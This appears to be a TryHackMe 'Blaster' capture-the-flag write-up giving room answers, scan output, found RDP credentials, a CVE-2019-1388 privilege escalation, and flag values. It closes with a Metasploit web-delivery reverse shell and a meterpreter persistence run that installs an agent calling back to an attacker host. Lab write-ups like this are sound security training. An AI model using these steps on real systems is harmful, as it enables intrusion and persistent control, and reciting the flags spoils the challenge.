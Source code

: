 # Blaster

## Task 1 - Deploy the VM (takes a lot of time, 5 minutes)

## Task 2
```
#1 How many ports are open on our target system?

2
```
```
#2 Looks like there's a web server running, what is the title of the page we discover when browsing to it?

IIS Windows Server
```
```
#3 Interesting, let's see if there's anything else on this web server by fuzzing it. What hidden directory do we discover?

/retro
```
```
#4 Navigate to our discovered hidden directory, what potential username do we discover?

wade
```
```
#5 Crawling through the posts, it seems like our user has had some difficulties logging in recently. What possible password do we discover?

parzival
```
```
#6 Log into the machine via Microsoft Remote Desktop (MSRDP) and read user.txt. What are it's contents?

THM{HACK_PLAYER_ONE}
```
## Task 3
```
#1 	When enumerating a machine, it's often useful to look at what the user was last doing. Look around the machine and see if you can find the CVE which was researched on this server. What CVE was it?

CVE-2019-1388
```
```
#2 Looks like an executable file is necessary for exploitation of this vulnerability and the user didn't really clean up very well after testing it. What is the name of this executable?

hhupd
```
```
#3 Research vulnerability and how to exploit it. Exploit it now to gain an elevated 
terminal!
```
```
#4 Now that we've spawned a terminal, let's go ahead and run the command 'whoami'. What is the output of running this?

nt authority\system
```
```
#5 	Now that we've confirmed that we have an elevated prompt, read the contents of root.txt on the Administrator's desktop. What are the contents? Keep your terminal up after exploitation so we can use it in task four!

THM{COIN_OPERATED_EXPLOITATION}
```
## Task 4
```
#1 Return to your attacker machine for this next bit. Since we know our victim machine is running Windows Defender, let's go ahead and try a different method of payload delivery! For this, we'll be using the script web delivery exploit within Metasploit. Launch Metasploit now and select 'exploit/multi/script/web_delivery' for use.
```
```
#2 	First, let's set the target to PSH (PowerShell). Which target number is PSH?

2
```
```
#3 	After setting your payload, set your lhost and lport accordingly such that you know which port the MSF web server is going to run on and that it'll be running on the TryHackMe network.
```
```
#4 Finally, let's set our payload. In this case, we'll be using a simple reverse HTTP payload. Do this now with the command: 'set payload windows/meterpreter/reverse_http'. Following this, launch the attack as a job with the command 'run -j'.
```
```
#5 Return to the terminal we spawned with our exploit. In this terminal, paste the command output by Metasploit after the job was launched. In this case, I've found it particularly helpful to host a simple python web server (python3 -m http.server) and host the command in a text file as copy and paste between the machines won't always work. Once you've run this command, return to our attacker machine and note that our reverse shell has spawned. 
```
```
#6 Last but certainly not least, let's look at persistence mechanisms via Metasploit. What command can we run in our meterpreter console to setup persistence which automatically starts when the system boots? Don't include anything beyond the base command and the option for boot startup. 

run persistence -X
```
```
#7 Run this command now with options that allow it to connect back to your host machine should the system reboot. Note, you'll need to create a listener via the handler exploit to allow for this remote connection in actual practice. Congrats, you've now gain full control over the remote host and have established persistence for further operations!
```
### CODE

```
export ip=10.10.99.228
```
#### The machine doesnt respond to icmp PING, then using -Pn option
## nmap scan
```
$ nmap -sC -sV -Pn -oN nmap.txt $ip

# Nmap 7.80 scan initiated Thu Jun 25 13:23:06 2020 as: nmap -sC -sV -Pn -oN nmap.txt 10.10.99.228
Nmap scan report for 10.10.99.228
Host is up (0.080s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2020-06-25T10:23:22+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2020-05-21T21:44:38
|_Not valid after:  2020-11-20T21:44:38
|_ssl-date: 2020-06-25T10:23:23+00:00; +1s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun 25 13:23:22 2020 -- 1 IP address (1 host up) scanned in 16.44 seconds

```
```
$ gobuster dir -u http://$ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.99.228
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/25 13:25:50 Starting gobuster
===============================================================
/retro (Status: 301)
/Retro (Status: 301)

```
Found a $ip/retro dir, website about retro games, on Task #2 I found that the author is Wade, and he left a comment @ $ip/retro/index.php/2019/12/09/ready-player-one/#comment-2, stating:
"
	Wade
	December 9, 2019

Leaving myself a note here just in case I forget how to spell it: parzival
"
so 'parzival' is the potential password from  Task #2, Question #5.

```
Windows RDP CREDS = wade:parzival
```
user.txt @ Desktop : THM{HACK_PLAYER_ONE}

hhupd.exe @ Desktop : found this CVE-2019-1388 @ https://www.nagenrauft-consulting.com/2019/11/21/cve-2019-1388-hhupd-exe/

https://www.youtube.com/watch?v=3BQKpPNlTSo - video on the exploit from the site above ...
pic2.png - escalated to nt authority\system

pic3.png - root flag
$ type C:\Users\Administrator\Desktop\root.txt: THM{COIN_OPERATED_EXPLOITATION}


used exploit/multi/script/web_delivery in metasploit to host a webserver with the payload and load it on the system via the escalated command prompt

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > run persistence -X
[!] Meterpreter scripts are deprecated. Try exploit/windows/local/persistence.
[!] Example: run exploit/windows/local/persistence OPTION=value [...]
[*] Running Persistence Script
[*] Resource file for cleanup created at /root/.msf4/logs/persistence/RETROWEB_20200625.1049/RETROWEB_20200625.1049.rc
[*] Creating Payload=windows/meterpreter/reverse_tcp LHOST=172.16.0.11 LPORT=4444
[*] Persistent agent script is 99619 bytes long
[+] Persistent Script written to C:\Windows\TEMP\SkuAgAqzolP.vbs
[*] Executing script C:\Windows\TEMP\SkuAgAqzolP.vbs
[+] Agent executed with PID 6012
meterpreter >
```

